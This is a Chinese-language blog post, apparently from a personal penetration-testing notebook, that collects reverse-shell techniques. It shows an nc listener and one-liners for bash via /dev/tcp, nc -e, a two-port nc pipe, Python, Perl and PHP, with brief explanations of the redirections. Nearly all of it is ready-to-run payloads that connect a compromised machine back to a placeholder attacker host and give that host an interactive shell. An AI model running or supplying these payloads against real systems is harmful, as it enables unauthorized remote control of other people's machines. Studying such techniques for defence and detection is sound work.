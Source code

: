 ```yaml
---
title: 关于反弹shell的姿势
date: 2020-03-05 15:26:53
tags:
 - shell
 - 渗透测试
categories:
 - 日常积累
---
```


## linux下的反弹

本机使用nc

```
nc -lvp port
```

<!--more-->

### bash

```
bash -i >& /dev/tcp/host/port 0>&1
```

> - linux shell下常用的文件描述符是：
>
>   > 1. 标准输入  (stdin) ：代码为 0 ，使用 < 或 << ； 
>   >
>   > 2. 标准输出  (stdout)：代码为 1 ，使用 > 或 >> ； 
>   >
>   > 3. 标准错误输出(stderr)：代码为 2 ，使用 2> 或 2>>。
>
> - bash -i 新开一个交互bash
>
> - \>&或者 &\>  将标准错误输出定向到标准输出中
>
> - 0>&1或者0<&1将标准输入重定向到标准输出中
>
> - /dev/tcp/host/port  使用tcp通道与host:post建立一个连接
>
> - 如果还是不清楚 参考手册https://www.gnu.org/software/bash/manual/bash.pdf 3.6 章redirections



### nc

```
nc -e /bin/bash host port
```

>nc -e   inbound program to exec [dangerous!!]



有些版本的NC没有-e选项，在本机开两个端口

```
nc -lvp port1
nc -lvp port2
```



受控机

```
nc host port1 | /bin/bash | nc host port2
```

>- 管道命令，从host:pot1输入数据交给 /bin/bash处理，再交给host：port2输出
>
>- 将nc 改成telnet 也是可以的





### python

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("host",port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```



### perl

```
perl -e 'use Socket;$i="host";$p=port;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'
```



### php

```
php -r '$sock=fsockopen("host",port);exec("/bin/bash -i <&3 >&3 2>&3");'
```

> php反弹shell的这些方法都需要php关闭safe_mode这个选项，才可以使用exec函数





参考连接

https://www.freebuf.com/news/142195.html

https://www.freebuf.com/articles/system/147768.html

https://www.freebuf.com/articles/system/178150.html

https://www.freebuf.com/articles/system/153986.html